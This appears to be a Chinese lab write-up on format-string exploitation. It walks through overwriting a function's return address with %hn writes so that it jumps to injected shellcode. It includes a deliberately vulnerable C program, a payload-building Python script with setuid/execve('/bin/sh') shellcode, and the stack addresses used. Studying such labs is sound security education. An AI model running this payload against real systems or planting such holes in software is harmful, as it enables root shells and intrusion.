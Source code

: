 # 注入恶意代码

前面实现了向任意一个地址写入任意值，可以使用相同的技术修改函数的返回地址，令地址指向注入的恶意代码。

```c
#include <stdio.h>

void fmtstr(char *str)
{
    unsigned int *framep;
    unsigned int *ret;
    
    asm("movl %%ebp, %0" : "=r" (framep));  // copy ebp into framep
    ret = framep + 1;
    
    printf("The address of the input array: 0x%.8x\n", (unsigned)str);
    printf("The value of the frame pointer: 0x%.8x\n", (unsigned)framep);
    printf("The value of the return address: 0x%.8x\n", *ret);
    printf(str);
    printf("\nThe value of the return address: 0x%.8x\n", *ret);
}

int main(int argc, char **argv)
{
    FILE *badfile;
    char str[200];
    
    badfile = fopen("badfile", "rb");
    fread(str, sizeof(char), 200, badfile);
    fmtstr(str);
    
    return 1;
}
```
![准备漏洞程序](../img/format-malware.png)

![找出各种地址](../img/format-malware2.png)

***攻击策略的四个挑战***:  
1、注入恶意代码到栈中：可以简单地在格式化字符串末尾包含一段shellcode  
2、找到恶意代码的起始地址A：恶意代码存放在数组str中，str地址0xbffff644（）  
3、找到返回地址保存的位置B： 返回地址在栈帧上面4个字节，0xbffff618 + 4 = 0xbffff61c  
4、把A写入B的内存：

    实验中跳转到str[]数组偏移量0x90的地方，因此地址是0xbffff644 + 0x90 = 0xbffff6c4，
    这是要写入返回地址域的数据，因此需要往地址0xbffff61c中写入0xbffff6c4。  
    
为了缩短进攻时间，把0xbffff6c4的4个字节分隔成两个连续的2字节内存块，起始地址分别是
0xbffff6c4和0xbffff6c6，需要往0xbffff6c6中写入0xbfff，往0xbffff6c4中写入0xf6c4

现在剩下的问题是要知道当printf函数调用时，它的va_list指针要移动多少次才能到达放在str数组中的
地址0xbffff61e

```bash
echo $(printf "\x1e\xf6\xff\xbf@@@@\x1c\xf6\xff\xbf")%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x:%.8x: > badfile
./fmtvul
```
![找出偏移多少次](../img/format-findoffset.png)
从实验结果可知，0xbffff60e是第21个数，前面需要20个%x才能到达第一个地址（这个图是第一次实验时的地址，里面地址要改下）    

!!! 两个关键地址

    0xbffff608 0xbffff60c -> 0xbffff618  0xbffff61c  第一次得到的地址  
    0xbffff634 0xbffff6c4  -> 0xbffff644  0xbffff6d4 最终的地址  
    地址是栈帧地址加4，数据是数组地址加0x90  
    之前的文档是按第一个地址写的，写上这个万一有没改全的做个参考  
    
```python
#!/usr/bin/python3
import sys


shellcode = (
    "\x31\xc0"
    "\x31\xdb"
    "\xb0\xd5"
    "\xcd\x80"
    "\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80"
).encode('latin-1')

N = 200 

content = bytearray(0x90 for i in range(N))
start = N - len(shellcode)
# 把shellcode放在尾部
content[start:] = shellcode

# 把返回值域的地址放在格式化字符串的头部
addr1 = 0xbffff61e
addr2 = 0xbffff61c
content[0:4] = (addr1).to_bytes(4, byteorder='little')
content[4:8] = ("@@@@").encode('latin-1')
content[8:12] = (addr2).to_bytes(4, byteorder='little')

# 加上%x和%hn
small = 0xbfff - 12 - 19*8
large = 0xf6d4 - 0xbfff
s = "%.8x"*19 + "%." + str(small) + "x%hn%." + str(large) + "x%hn"

fmt = (s).encode('latin-1')
content[12:12+len(fmt)] = fmt

file = open("badfile", "wb")
file.write(content)
file.close()
```

```python
small = 0xbfff - 12
large = 0xf6d4 - 0xbfff
s = "%." + str(small) + "x" + "%21$hn" + \
    "%." + str(large) + "x" + "%23$hn"
```

![成功攻击](../img/format-success.png)
成功进行字符串格式化漏洞攻击  &#x1F44D;&#x1F44D;&#x1F44D;

!!! warning

    注意fmtvul的地址会变化，要以最后一次运行攻击时为准
    
## 减少格式化字符串的长度

```c
#include <stdio.h>

int main()
{
    int var = 1000;
    printf("%5$.20x%6$n\n", 1, 2, 3, 4, 5, &var);
    printf("The value in var: %d\n", var);
    return 0;
}
```
![减少字符长度](../img/format-shortstr.png)